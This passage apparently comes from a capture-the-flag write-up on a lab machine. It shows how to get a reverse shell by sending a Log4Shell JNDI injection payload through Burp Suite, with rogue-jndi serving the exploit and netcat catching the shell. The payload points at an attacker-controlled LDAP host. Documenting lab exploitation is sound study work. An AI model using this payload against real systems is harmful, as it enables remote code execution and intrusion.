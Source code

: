 ### Execute reverse shell

It is possible to do it by `curl`, as mentioned in `SprocketSecurity` article, but I will use `Burpsuite` instead.

Modify this payload:

```
"${jndi:ldap://{your tun0 ip}:1389/o=tomcat}"
```

And press `Send`.

![rogue-jndi](./Screenshots/unifiedjndi5.png)

Nothing happens in `Burp` but in our `netcat` tab we have a `reverse shell`.

![Netcat](./Screenshots/unifiednetcat2.png)
